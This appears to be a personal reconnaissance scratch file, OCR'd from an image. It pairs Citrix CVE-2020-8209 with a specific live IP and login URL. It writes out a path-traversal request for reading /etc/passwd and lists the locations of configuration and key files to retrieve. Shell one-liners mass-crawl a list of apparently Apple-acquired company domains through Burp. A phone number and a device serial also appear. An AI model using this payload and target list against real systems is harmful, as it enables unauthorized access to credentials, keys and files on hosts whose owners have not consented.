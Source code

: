 







Citrix cve-2020-8209
https://62.89.192.24:8443/zdm/login_xdm_uc.jsp



To do:

Passwd File   : /jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
Configuration : /opt/sas/sw/config/sftu.properties
Keys          : /opt/sas/rt/keys/security.properties






+918040455150 - Apple
FVFDC1K0J1WK



cat domains | xargs -I % python3 ~/passivehunter.py  -l high -o ./spidering/paramspider/% % ;


Import URLS to Burp :

cat shifafinal10dec_SORT.txt | parallel -j 200 curl -L -o /dev/null {} -x 127.0.0.1:8081 -k -s

propel.com
schemasoft.com
siliconcolor.com
c3technologies.com
anobit.com
chomp.com
mog.com
authentec.com
particlebrand.com
defunct-color.com
wifislam.com
catch.com
primesense.com
HopStop.com
matcha.tv
letsembark.com
algotrim.com
cueup.com
acunu.com
topsy.com
snappylabs.com
burstly.com
Novauris.com
beatsbydre.com
spotsetter.com
booklamp.org
swell.am
prss.com
unionbaynetworks.com
semetric.com
camelaudio.com
foundationdb.com
ottocat.com
dryft.com
linximaging.com
coherentnavigation.com
metaio.com
privaris.com
mapsense.co